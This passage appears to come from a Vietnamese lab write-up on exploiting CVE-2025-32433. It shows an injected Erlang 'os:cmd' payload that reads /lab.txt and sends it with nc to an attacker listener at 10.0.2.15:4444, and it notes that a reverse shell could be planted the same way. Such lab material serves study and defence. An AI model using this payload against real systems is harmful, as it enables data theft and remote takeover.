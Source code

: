 - Tuy nhiên, đây là khi ta có quyền truy cập hệ thống, đứng dưới góc nhìn của kẻ tấn công, thử tìm cách đọc file `lab.txt` này mà không có quyền truy cập.

- Tại đây, ta thay đoạn mã RCE bằng lệnh đọc file sau đó gửi nội dung qua `nc` về máy attacker. (Tất nhiên, trong trường hợp này, giải sử mục tiêu đã được cài đặt `nc`)

```python
    'os:cmd("cat /lab.txt | nc 10.0.2.15 4444").'
```

![CVE-2025-32433](Images/6.png)

- Nội dung file `lab.txt` sẽ được gửi tới trình lắng nghe trên máy tấn công.

![CVE-2025-32433](Images/7.png)

- Theo đó, attacker hoàn toàn có thể chèn một reverse shell để kiểm soát hệ thống
